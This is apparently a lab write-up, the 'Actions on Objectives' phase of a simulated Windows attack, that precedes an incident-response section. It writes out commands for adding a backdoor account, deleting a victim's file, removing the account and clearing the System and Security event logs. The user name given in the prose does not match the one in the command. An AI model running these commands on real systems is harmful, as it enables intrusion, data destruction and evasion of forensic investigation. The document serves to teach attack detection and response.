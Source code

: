 # Phase 7: Actions on Objectives

## 🌟 Objective:
Exfiltrate data, manipulate the system, and cover tracks to avoid detection.

### Steps:
#### Creating a New User:
- The attacker creates a new user named `guest` with password `password123` using:
  ```bash
  net user guesstt Password123 /add
  ```
  ![image](https://github.com/user-attachments/assets/0538c131-2050-4555-a199-2b8de4241b1d)

- This allows the attacker to **re-enter the system at will**.

#### Credential Dumping

![image](https://github.com/user-attachments/assets/6e1b11bc-9012-4690-a653-5c1de564996f)

![image](https://github.com/user-attachments/assets/0fe4970b-416e-4db5-80a4-c2c0b23cd581)

#### Exfiltrating Data:
- The attacker downloads a file named **`important_doc.txt`** from the `secret_folder` to their own machine.
- The file likely contains sensitive information.

![image](https://github.com/user-attachments/assets/168246a7-23c9-49d4-8473-06ecee780829)

![image](https://github.com/user-attachments/assets/c03f2349-81ea-4b59-a1ab-5b1e5a179f31)

![image](https://github.com/user-attachments/assets/e48caaaf-4265-494b-91bd-e619d47f4879)

#### Deleting Evidence on the Victim’s Machine:
- The attacker deletes `Secret Storage.txt` from the victim’s machine:
  ```bash
  del "C:\Users\Bob\Secrets\Secret Storage.txt"
  ```

![image](https://github.com/user-attachments/assets/a484140e-fe48-401a-a666-82071249971c)

#### Removing Traces of the Attack:
- The attacker removes the created user:
  ```bash
  net user guesstt /delete
  ```
  ![image](https://github.com/user-attachments/assets/98f4e8c7-524f-49e7-b0e4-c56519bec77f)

- The attacker clears Windows system and security logs to hide their actions:
  ```bash
  wevtutil cl System
  wevtutil cl Security
  ```
  ![image](https://github.com/user-attachments/assets/ad49d2f7-0b58-45ee-9a25-22358ce5d544)

- This prevents forensic investigators from detecting the attack.

# Now we are done with the Attack Phase. Now we jump into the Incident Response Phase
